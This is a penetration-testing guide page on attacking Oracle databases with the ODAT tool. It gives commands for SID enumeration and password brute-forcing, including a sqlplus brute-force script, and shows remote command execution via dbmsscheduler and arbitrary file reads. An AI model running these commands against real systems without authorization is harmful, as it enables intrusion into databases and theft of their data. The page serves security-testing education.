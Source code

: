 # Oracle Databases

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to odat when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service.  Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host.  These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available:

```
./odat.py sidguesser  -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case.  Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate.  I'm joking, don't do that. Do not do that!

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/lib/oracle/12.2/client64/bin/sqlplus -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as xp\_cmdshell for Oracle databases, but we do have options.  We can use dbmsscheduler in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## CVE 2012-1675 \(TNS Poisoning\)

## CVE-2012-3137

[Alternative Script \(untested\)](https://github.com/r1-/cve-2012-3137)

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](/h ttp://www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)

